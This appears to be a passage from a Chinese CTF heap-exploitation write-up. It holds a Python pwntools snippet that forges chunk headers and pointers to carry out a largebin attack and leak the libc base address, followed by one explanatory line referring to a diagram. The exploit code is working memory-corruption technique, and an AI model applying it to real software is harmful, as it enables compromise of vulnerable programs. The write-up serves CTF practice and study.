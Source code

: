 ```python

'''
0x10 3 head
0x400 3 malloc
0x10 4 head
0x90 4 malloc
0x10 5 head
0x3f0 5 malloc
'''

#0xb8 bk_nextsize
#0xc0 'a'*0x300
#0x3c0 p64()*4
#0x3e0 fake 1
pay = p64(heap+0x3e0)
pay += 'a'*0x300 
pay += p64(0xdeadbeef)+p64(heap+0x3e0)+p64(heap+0x3e0)+p64(0xdeadbeef)
pay += p64(0)+p64(0x411)+p64(heap+0x3b0)+p64(heap+0x3c0)+p64(heap+0x90)+p64(heap+0x570)

edit(3,pay)

pay = p64(heap+0x90)
#0x540
pay+= p64(0)+p64(0x411)+p64(0)+p64(0)+p64(heap+0x3e0)+p64(0)
pay = pay.ljust(0x280,'\x00')
pay+=p64(0x410)+p64(0x410)
edit(5,pay)

dele(0)
add(0x410-0x20,'QQQQQQQQ')#0
#recover
edit(3,p64(heap+0x540))
add(0x410-0x20,'X')#3
add(0x400-0x20,'Y')#5

dele(7)#970
dele(4)#4a0

edit(0,'Q'*(8+0x90)+'X'*0x10)
add(0x80,'4')
show(0)

cn.recvuntil('X'*0x10)
main_arena=0x3c4b20

libc_base = u64(cn.recvuntil('\n')[:-1].ljust(8,'\x00'))-main_arena-88
success('libc_base: '+hex(libc_base))
```

解释一下,这里就是在使用上面所画的图的largebin attack,即图
